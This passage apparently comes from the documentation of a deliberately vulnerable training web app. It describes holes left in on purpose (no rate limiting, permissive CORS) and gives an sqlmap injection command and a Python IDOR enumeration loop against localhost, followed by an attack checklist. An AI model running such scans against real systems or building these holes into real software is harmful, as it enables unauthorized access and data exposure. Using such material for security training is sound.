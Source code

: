```json
{
  "error": "User not found"
}
```

## Rate Limiting

Currently, no rate limiting is implemented (vulnerability for educational purposes).

## CORS Policy

CORS is permissive for educational purposes (vulnerability for training).

## Testing Tools

### Automated Testing

```bash
# SQLMap for SQL injection
sqlmap -u "http://localhost:5000/login" --data="username=admin&password=admin" --dbs

# Burp Suite for comprehensive testing
# Import the application into Burp Suite Professional for automated vulnerability scanning

# Custom Python scripts
python3 -c "
import requests
import json

# Test IDOR vulnerability
for user_id in range(1050, 1070):
    r = requests.get(f'http://localhost:5000/profile/{user_id}')
    if r.status_code == 200:
        data = r.json()
        print(f'User {user_id}: {data.get(\"username\", \"unknown\")}')
"
```

### Manual Testing Checklist

- [ ] SQL injection in login form
- [ ] IDOR vulnerability enumeration
- [ ] JWT token analysis and forgery
- [ ] Admin authorization bypass
- [ ] API endpoint discovery
- [ ] Error message information disclosure
- [ ] Session management testing

## Remediation Guidance

